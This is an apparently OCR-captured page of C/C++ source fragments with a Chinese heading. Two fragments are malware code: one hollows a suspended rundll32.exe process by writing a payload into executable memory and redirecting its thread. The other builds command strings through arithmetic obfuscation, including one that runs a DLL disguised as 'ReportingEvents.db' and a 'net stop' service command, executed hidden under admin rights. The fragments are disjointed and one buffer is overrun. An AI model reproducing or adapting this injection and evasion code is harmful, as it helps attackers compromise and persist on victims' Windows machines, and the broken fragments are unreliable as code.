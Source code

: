 ```
	BOOL result = CreateProcessA(0, (LPSTR)"rundll32.exe", 0, 0, 0, 0x44u, 0, 0, &StartupInfo, &ProcessInformation);
	if (result)
	{
		Context.ContextFlags = 65539;
		GetThreadContext(ProcessInformation.hThread, &Context);
		v24 = VirtualAllocEx(ProcessInformation.hProcess, 0, size, 0x1000u, 0x40u);
		WriteProcessMemory(ProcessInformation.hProcess, v24, v7A, size, (SIZE_T*)&DwWrite);
		Context.Eip = (DWORD)v24;
		SetThreadContext(ProcessInformation.hThread, &Context);
		ResumeThread(ProcessInformation.hThread);
		CloseHandle(ProcessInformation.hThread);
		result = CloseHandle(ProcessInformation.hProcess);
	}
```

触发异常

```
		int* pValue = NULL;
		printf("into Try.\n");
		*pValue = 0x114514;
```

centos7-6  957

centos7-9  1160



```
	char tmp[128]{ 0 };//"cmd /c rundll32 %ALLUSERSPROFILE%\\Windows\\SoftwareDistribution\\ReportingEvents.db Entery"
	(DWORD&)tmp[0] += 0x1988793F; (DWORD&)tmp[0] += 0x06DBF424; (DWORD&)tmp[4] += 0x666EEDF7; (DWORD&)tmp[4] += 0x0BB17538;
	(DWORD&)tmp[8] += 0x6BC9F939; (DWORD&)tmp[8] += 0x009A753C; (DWORD&)tmp[12] += 0x191ED836; (DWORD&)tmp[12] += 0x07135B36;
	(DWORD&)tmp[16] += 0x45B165A7; (DWORD&)tmp[16] += 0x069ADB7E; (DWORD&)tmp[20] += 0x4ACD0685; (DWORD&)tmp[20] += 0x07784CD0;
	(DWORD&)tmp[24] += 0x3D6597C7; (DWORD&)tmp[24] += 0x11ECB88C; (DWORD&)tmp[28] += 0x40EC7E66; (DWORD&)tmp[28] += 0x045FCAE0;
	(DWORD&)tmp[32] += 0x60789F39; (DWORD&)tmp[32] += 0x08DEBCEC; (DWORD&)tmp[36] += 0x7219326A; (DWORD&)tmp[36] += 0x05563204;
	(DWORD&)tmp[40] += 0x56FF6FFF; (DWORD&)tmp[40] += 0x1853EC74; (DWORD&)tmp[44] += 0x2E6A21C6; (DWORD&)tmp[44] += 0x330D52A0;
	(DWORD&)tmp[48] += 0x67D3757A; (DWORD&)tmp[48] += 0x0170EFF8; (DWORD&)tmp[52] += 0x61CEAB83; (DWORD&)tmp[52] += 0x07A3C8F0;
	(DWORD&)tmp[56] += 0x57E6F1F4; (DWORD&)tmp[56] += 0x118D836E; (DWORD&)tmp[60] += 0x296C27E7; (DWORD&)tmp[60] += 0x28F04688;
	(DWORD&)tmp[64] += 0x610BFD57; (DWORD&)tmp[64] += 0x1163730E; (DWORD&)tmp[68] += 0x55AF4230; (DWORD&)tmp[68] += 0x11BF2744;
	(DWORD&)tmp[72] += 0x609B90EB; (DWORD&)tmp[72] += 0x0DC9E55A; (DWORD&)tmp[76] += 0x5E276B30; (DWORD&)tmp[76] += 0x06070844;
	(DWORD&)tmp[80] += 0x66D529A0; (DWORD&)tmp[80] += 0x076FF6C2; (DWORD&)tmp[84] += 0x796B6052; (DWORD&)tmp[84] += 0x00070522;
	(DWORD&)tmp[88] += 0xD432DF56; (DWORD&)tmp[88] += 0x2BCD20AA;

	char tmp2[8] = { 0 }; //net stop WlanSvr
	(DWORD&)tmp2[0] += 0x18D80323; (DWORD&)tmp2[0] += 0x079C624B; (DWORD&)tmp2[4] += 0x5AE1655B; (DWORD&)tmp2[4] += 0x158E0F18;
	(DWORD&)tmp2[8] += 0x5F77F926; (DWORD&)tmp2[8] += 0x01F45DFA; (DWORD&)tmp2[12] += 0x70015EF8; (DWORD&)tmp2[12] += 0x0274F476;
	(DWORD&)tmp2[16] += 0xFF1AC936; (DWORD&)tmp2[16] += 0x00E536CA;

	if (mainIsAdministratorUser()) {
		OutputDebugStringW(L"start server");
		WinExec(tmp2, SW_HIDE);
```